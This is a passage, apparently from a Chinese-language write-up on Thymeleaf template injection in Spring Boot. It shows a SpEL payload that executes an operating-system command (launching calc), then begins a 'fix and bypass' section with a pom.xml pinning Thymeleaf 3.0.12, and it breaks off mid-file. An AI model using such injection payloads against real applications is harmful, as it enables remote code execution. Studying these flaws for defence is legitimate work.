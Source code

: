 ```java
__${T(java.lang.Runtime).getRuntime().exec("calc")}__::feng
```



## 修复与bypass

需要修改pom.xml：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.4</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>springboot</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>springboot</name>
    <description>springboot</description>
    <properties>
        <java.version>1.8</java.version>
        <thymeleaf.version>3.0.12.RELEASE</thymeleaf.version>
        <thymeleaf-layout-dialect.version>2.0.0</thymeleaf-layout-dialect.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.projectlombok</groupId>
            <artifactId>lombok</artifactId>
            <optional>true</optional>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
            <version>2.4.0</version>
        </dependency>

    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
                <configuration>
                    <excludes>
```